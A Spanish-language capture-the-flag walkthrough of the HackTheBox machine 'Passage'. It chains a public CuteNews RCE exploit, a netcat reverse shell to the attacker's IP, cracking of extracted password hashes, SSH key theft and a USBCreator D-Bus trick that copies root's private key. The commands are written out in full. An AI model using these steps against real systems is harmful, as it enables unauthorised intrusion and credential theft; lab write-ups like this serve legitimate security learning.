

# HackTheBox - Passage
### Enumeración y reconomiento
Procedemos a la enumeración de puertos de la máquina mediante `nmap`

    nmap -sC -sV -v 10.10.10.206
El resultado que obtenemos es el siguiente

~~~
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 17:eb:9e:23:ea:23:b6:b1:bc:c6:4f:db:98:d3:d4:a1 (RSA)
|   256 71:64:51:50:c3:7f:18:47:03:98:3e:5e:b8:10:19:fc (ECDSA)
|_  256 fd:56:2a:f8:d0:60:a7:f1:a0:a1:47:a4:38:d6:a8:a1 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Passage News
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~

Como se puede observar, los puertos 22 (SSH) y 80 (Web) se encuentran abiertos. Asi que ingresamos a la página

En la letra pequeña se ve que se esta usando CuteNews, tras una busqueda en Google se descubre que es un CMS.

### Obteniendo user flag
Realizamos una busqueda de algun CVE de CuteNews que nos permita ingresar al servidor y encontramos uno en Exploit-DB que que nos brinda de un RCE (CVE 2019-1147). [Enlace](https://www.exploit-db.com/exploits/48800)

Nos descargamos el script y lo ejecutamos

    python3 48800.py
Tras esto nos pide la URL y la ingresamos y con esto obtenemos una shell como usuario `www-data` en la carpeta uploads, pero no podemos salir de esa carpeta, una opción para superar esto es lanzar otra reverse shell desde la que ya obtuvimos. Ejecutamos netcat en otra shell

    nc -lvnp 4444
Desde la shell obtenido con el script lanzamos el siguiente comando

    nc <Mi IP> 4444 -e /bin/bash
De esta forma obtenemos una nueva shell con menos restricciones, pero tiene un comportamiento irregular ya que no nos muestra el usuario ni la carpeta en donde se encuentra, asi que limpiamos la terminal con el siguiente comando. Agradecimiento a [s4vitar](https://www.youtube.com/channel/UCNHWpNqiM8yOQcHXtsluD7Q) por este comando.

    script /dev/null -c bash
Y con ello ya estamos listos y podemos navegar por la maquina

~~~
myUser@myOS:~/myFolder$ nc -lnvp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.10.206 59216
pwd
/var/www/html/CuteNews/uploads
script /dev/null -c bash
Script started, file is /dev/null
www-data@passage:/var/www/html/CuteNews/uploads$ 
~~~

Navegamos por la maquina y en la carpeta `/home` encontramos 2 usuarios, `paul` y `nadav`, pero no tenemos los permisos para acceder a estas carpetas. Seguimos explorando por las carpetas donde se tiene el servidor web y en la ruta `www/html/CuteNews/cdata` encontramos una carpeta `users` al ingresar a esta observamos varios archivos, procedemos a ver el contenido de `lines` y encontramos contenido cifrado

Como no se puede identificar que algoritmo de cifrado se ha aplicado podemos utlizar la función magic de CyberChef para identificar el algoritmo y descrifrar el contenido. Agradecimiento a [LiveOverflow](https://www.youtube.com/channel/UClcE-kVhqyiHCcjYwcpfj9w) por dar a conocer esta herramienta.

Gracias a esto sabemos que es un archivo codificado en Base64. En los cuales 2 de estos corresponden a `paul` y a `nadav`

~~~
a:1:{s:4:"name";a:1:{s:5:"admin";a:8:{s:2:"id";s:10:"1592483047";s:4:"name";s:5:"admin";s:3:"acl";s:1:"1";s:5:"email";s:17:"nadav@passage.htb";s:4:"pass";s:64:"7144a8b531c27a60b51d81ae16be3a81cef722e11b43a26fde0ca97f9e1485e1";s:3:"lts";s:10:"1592487988";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"2";}}}
a:1:{s:4:"name";a:1:{s:10:"paul-coles";a:9:{s:2:"id";s:10:"1592483236";s:4:"name";s:10:"paul-coles";s:3:"acl";s:1:"2";s:5:"email";s:16:"paul@passage.htb";s:4:"nick";s:10:"Paul Coles";s:4:"pass";s:64:"e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd";s:3:"lts";s:10:"1592485556";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"2";}}}
~~~

Estos corresponden a `paul` y `nadav` y contienen un hash de la contraseña, a partir de esto tenemos 2 opciones, para encontrar la contraseña del hash.

- Crack del hash con JohnTheRipper
- Busqueda del hash en una tabla cruzada (CrackStation)

Usaremos CrackStation para descubrir la contraseña

Ahora sabemos la contraseña del usuario `paul` asi que mediante el siguiente comando nos movemos al este usuario desde `www-data`

    su paul
Con ello ya hemos ganado user y podemos obtener el flag (`user.txt`)

### Obteniendo root flag

Utilizaremos el siguiente comando para averiguar que usuarios pertenecen al grupo `sudo`

~~~
paul@passage:~$ getent group sudo
getent group sudo
sudo:x:27:nadav
paul@passage:~$ 
~~~

Sabemos que el usuario `nadav` pertenece a `sudo`, asi que tenemos que acceder a este usuario para desde ahi escalar privilegios. En la carpeta `.ssh` de `paul` listamos y revisamos su contenido y encontramos las llaves para el ingreso a `nadav` asi que nos conectamos a ese usuario por `ssh`

    ssh nadav@10.10.10.206
Pero antes, para facilitar la tarea de ingreso al terminal copiamos el archivo `id_rsa` de la carpeta `/home/paul/.ssh` a la maquina local, podemos hacer eso con el comando `cat` para visualizar la llave y creamos un archivo localmente y copiamos su contenido ahí. Ahora podemos entrar a `paul` sin necesidad de ejecutar el script de RCE con el siguiente comando y desde ahi movernos a `nadav`

    ssh -i <Nombre Archivo> paul@10.10.10.206
Ahora tenemos que subir el script. Desde la maquina local nos descargamos [linpeas.sh](http://linpeas.sh) y creamos un servidor web con python

    python3 -m http.server
Ahora desde `nadav` descargamos el script ubicado en la maquina local

    wget http://<Mi IP>:8000/linpeas.sh

Le damos permisos de ejecución

    chmod +x linpeas.sh
Y lo ejecutamos

    ./linpeas.sh
Pero el script no nos listó ningun posible vector de intrusion, asi que procedemos a listar los procesos en ejecucion

    ps aux
Y encontramos al proceso `/usr/bin/python3 /usr/share/usb-creator/usb-creator-helper` ejecutandose con permisos `root`. Este proceso es susceptible a un RCE debido a la implementacion del comando `dd` integrada ya que no hace una solicitud de credenciales a los usuarios pertenecientes al grupo sudo, asi que lo que se puede hacer es extraer la llave rsa de `root`

    gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /root/.ssh/id_rsa /home/nadav/id_rsa_nadav true

Y desde `/home/nadav` nos conectamos como `root` usando la llave rsa

    ssh -i <Nombre Archivo> root@10.10.10.206
Ahora que hemos obtenido el acceso a `root` obtenemos el flag (`root.txt`)
